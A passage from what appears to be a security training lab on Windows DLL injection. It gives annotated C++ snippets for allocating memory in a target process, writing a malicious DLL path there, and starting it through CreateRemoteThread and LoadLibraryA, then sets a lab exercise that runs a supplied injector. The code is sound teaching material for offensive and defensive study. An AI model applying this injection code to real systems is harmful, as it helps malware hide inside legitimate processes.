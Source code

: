 At step three, memory must be allocated for the provided malicious DLL to reside. As with most injectors, this can be accomplished using `VirtualAllocEx`.

```
LPVOID dllAllocatedMemory = VirtualAllocEx(
	hProcess, // Handle for the target process
	NULL, 
	strlen(dllLibFullPath), // Size of the DLL path
	MEM_RESERVE | MEM_COMMIT, // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

At step four, we need to write the malicious DLL to the allocated memory location. We can use `WriteProcessMemory` to write to the allocated region.

```
WriteProcessMemory(
	hProcess, // Handle for the target process
	dllAllocatedMemory, // Allocated memory region
	dllLibFullPath, // Path to the malicious DLL
	strlen(dllLibFullPath) + 1, // Byte size of the malicious DLL
	NULL
);
```

At step five, our malicious DLL is written to memory and all we need to do is load and execute it. To load the DLL we need to use `LoadLibrary`; imported from `kernel32`. Once loaded, `CreateRemoteThread` can be used to execute memory using `LoadLibrary` as the starting function.

```
LPVOID loadLibrary = (LPVOID) GetProcAddress(
	GetModuleHandle("kernel32.dll"), // Handle of the module containing the call
	"LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
	hProcess, // Handle for the target process
	NULL, 
	0, // Default size from the execuatable of the stack
	(LPTHREAD_START_ROUTINE) loadLibrary, pointer to the starting function
	dllAllocatedMemory, // pointer to the allocated memory region
	0, // Runs immediately after creation
	NULL
);
```

We can compile these steps together to create a DLL injector. Use the C++ injector provided and experiment with DLL injection.

### Answer the questions below

* Identify a PID and name of a process running as THM-Attacker to target. Supply the name and malicious DLL found in the Injectors directory as arguments to execute dll-injector.exe located in the Injectors directory on the desktop. 

	```
	tasklist /v /fi "USERNAME eq THM-Attacker"
	```
